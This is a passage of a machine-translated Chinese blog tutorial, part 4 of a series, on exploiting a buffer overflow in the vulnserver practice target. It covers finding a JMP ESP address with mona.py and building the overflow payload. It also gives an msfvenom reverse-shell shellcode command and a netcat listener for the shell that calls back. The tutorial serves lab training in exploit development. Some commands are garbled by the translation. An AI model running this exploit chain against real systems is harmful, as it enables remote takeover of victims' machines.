

# 缓冲区溢出教程(第 4 部分)

> 原文：<https://blog.devgenius.io/buffer-overflow-tutorial-part4-1e80e90a2f03?source=collection_archive---------5----------------------->

安加德·辛格·www.officialhacker.com

# 8 —寻找合适的模块

当我们谈论找到正确的模块时，我们说的是—我们正在搜索一个*“dll”*文件或程序中没有内存保护的类似文件。即使没有真正的方法来利用应用程序进行批判性思维，我们也可以使用*“Mona . py”*模块来为 Immunity Debugger 自动执行这些烦人的逐字节比较。您可以从以下 GitHub 页面下载*【Mona . py】*文件:*[*https://github.com/corelan/mona*](https://github.com/corelan/mona)*。”**

*提取文件并将 *"Mona.py"* 复制到*" C:\ Program Files \ Immunity Inc \ Immunity Debugger \ py commands。"*文件夹*。**

**

*将文件复制到*“py commands”*文件夹后，可以调用它，并列出免疫调试器中的所有模块。在列出模块之前，确保*“vulnserver”*正在运行并连接到调试器。然后，从免疫调试器使用搜索字段键入*"！莫娜模块"*并敲击*"回车."**

**

*它将显示所有模块及其保护设置。这里我们需要查找一个附加到*“vulnserver”*并且所有保护设置都为*“False”的文件*在本例中，我们发现 *"essfunc.dll"* 的所有内容都设置为 false。*

**

*接下来，我们应该找到一个与*“JMP”*(跳转命令)等价的操作码。为此，我们需要从 Kali Linux 终端*使用 *"nasm_shell.rb"* 脚本。**

****Ex:****(****root @ kali****:~ #/usr/share/metasploit-framework/tools/exploit/nasm _ shell . Rb)。**

*在这里，我们试图将汇编语言转换成十六进制代码，并找到跳转命令*“JMP ESP”的等效代码**【JMP ESP】*指令，它让我们通过*【EIP】*控制程序执行，并降落到我们的用户控制空间，其中将包含我们的外壳代码。在*“nasm _ shell”*中输入*“JMP ESP”*，点击*“回车”*然后记下跳转命令的十六进制代码，即*“FFE 4”。**

**

*现在，我们需要使用 Mona 的这个信息(FFE4)来查找使用(essfunc.dll)模块的跳转命令的返回地址。为此，请键入*"！mona 在免疫调试器的搜索字段中查找-s "\xff\xe4" -m essfunc.dll"* 。*

**

*当你点击*“回车”，*它会显示回邮地址。我们需要做笔记并记下其中一个地址，以便稍后在 python 脚本中使用。在这个例子中，我们将注意到第一个地址，即*“625011 af”。**

*现在，我们可以修改我们的 python 脚本，并在指定( *"A"* * 2003)缓冲字符后，以相反的顺序( *"\xaf\x11\x50\x62"* )添加我们记录的返回地址。*

**

*在 2003 字节的初始缓冲区之后，将*“JMP ESP”*的内存地址添加到我们的脚本中，我们可以覆盖*“EIP”*在运行这个脚本之前，让我们在*“JMP ESP”*指令处设置一个断点，这样我们可以在提交输入后手动单步执行指令。为此，单击调试器中的蓝色箭头图标，并键入我们之前提到的返回地址值。*

**

*一旦你点击*“OK”*按钮，它将定位特定的跳转代码并显示在屏幕顶部。要设置断点，突出显示地址并点击*“F2”*或双击地址的十六进制值。*

**

*设置好一切后，运行 python 脚本并分析更改。*

**

*所以，这里发生的事情是，当我们到达断点时，程序已经停止，并且*“EIP”*已经被我们在 python 脚本中指定的值覆盖。这意味着我们完全控制了*【EIP】*，并且可以运行任何外壳代码来危害我们的目标机器。*

# *9-生成外壳代码并获得访问权限*

*在漏洞开发过程的这个阶段，是时候生成外壳代码了。在这个例子中，我们将使用 msfvenom 创建一个反向 shell 负载。Msfvenom 是有效载荷生成和编码的组合。要创建 shellcode 我们需要执行以下命令:*(****root @ kali****:~ # MSF venom—platform Windows-p Windows/shell _ reverse _ TCP LHOST = 10 . 10 . 10 . 15 LPORT = 4444 exit func = thread-f c-a x86-b " \ x00 ")。*我们来分解一下，分析一下命令。首先，我们调用该工具，然后使用*-p "*操作符指定 Windows 操作系统的有效负载(*Windows/shell _ reverse _ TCP*)。接下来，我们提供了攻击者机器的 IP 地址( *LHOST* )和端口号( *LPORT* )来监听传入的连接。然后我们使用了 *"EXITFUNC=thread"* 命令来使漏洞利用更加稳定(这是可选的)。我们希望将所有内容导出到 C 文件类型中，所以我们指定了*-f "*操作符。接下来，我们使用*-b "*选项提供了目标机器的架构*-a x86 "*和一个坏角色。*

**

*一旦你点击*“回车”，*就会产生一个有效载荷。我们需要复制并在我们的 python 脚本中使用它。*

*用任何文本编辑器打开 python 脚本，声明一个像*【溢出】*或任何你喜欢的变量，然后粘贴有效负载。*

*接下来，我们必须通过提供几个( *"\x90"* 无操作)填充*，将有效载荷的这个变量添加到*"外壳代码"*变量中。**

****Ex:****(shellcode = " A " * 2003+" \ xaf \ X11 \ x50 \ x62 "+" \ x90 " * 32+溢出)。**

*我们使用这种类型的填充来确保 jump 命令和我们的有效载荷之间没有干扰。*

**

*完成所有工作后，保存脚本并在目标机器上运行它。在执行脚本之前，确保*“vulnserver”*软件在目标机器上以管理员身份运行。*

**

*最后，我们可以启动一个 Netcat 监听器来捕获反向 shell 连接，并通过执行我们创建的 python 脚本将我们的漏洞利用缓冲区发送给应用程序。*

****Ex:****(****root @ kali****:~ # NC-nvlp 4444)。**

**

*正如您在上面的截图中看到的，一旦 python 脚本被执行，您将接收到反向 shell 连接，并将完全控制目标机器。*

*[缓冲区溢出教程(第一部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part1-efc6b9f3e4ee)*

*[缓冲区溢出教程(第二部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part2-c21c6de5c11c)*

*[缓冲区溢出教程(第三部分)](https://medium.com/@nuriddin.artykow/buffer-overflow-tutorial-part3-98ab394073e3)*

*[缓冲区溢出教程(第四部分)](https://medium.com/dev-genius/buffer-overflow-tutorial-part4-1e80e90a2f03)*